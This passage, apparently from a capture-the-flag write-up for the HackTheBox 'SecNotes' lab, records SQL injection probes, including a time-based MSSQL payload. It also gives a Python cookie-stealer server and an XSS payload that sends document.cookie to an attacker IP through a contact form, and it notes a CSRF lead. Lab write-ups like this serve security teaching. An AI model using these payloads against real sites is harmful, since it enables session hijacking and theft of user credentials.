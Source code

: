 Messing with the `id` and `action` parameters by adding `'` or `"` to trigger errors does not work for error-based blind SQL injection... Trying `WAITFOR DELAY '0:0:5'; --` for time-based blind SQL injection does not work (assuming MSSQL backend)... This does not look like the way... Moving on for now. 

The `Contact Us` link brings up a form that sends stuff to `tyler@secnotes.htb`. Try XSS to steal an admin cookie token? Save the following Python as `cookie_stealer.py`:

```Python
import base64
import http.server
import urllib.parse
import socketserver

class MyHandler(http.server.SimpleHTTPRequestHandler):

  def do_GET(self):
    URL = urllib.parse.urlparse(self.path)
    for k,v_b64 in urllib.parse.parse_qs(URL.query).items():
      try:
        v = base64.b64decode(v_b64[0]).decode().strip()
        print(f'{self.client_address[0]} DECODED COOKIE: {v}')
      except:
        v = v_b64[0].strip()
        print(f'{self.client_address[0]} RAW COOKIE: {v}')
    super().do_GET()

with socketserver.TCPServer(("0.0.0.0", 80), MyHandler) as httpd:
  httpd.serve_forever()
```

Then run it as follows:

```bash
sudo python3 cookie_stealer.py
```

Then submit the following for a message to `tyler@secnotes.htb`:

```html
<img src=x onerror=javascript:this.src='http://10.10.14.25/?c='+encodeURIComponent(btoa(document.cookie));>
```

But this does not return any results... Try something more basic? Just send a message with a URL and see if it is visited:

```
http://10.10.14.25/test
```

And this returns a hit!

![csrf1](./secnotes/csrf1.png)
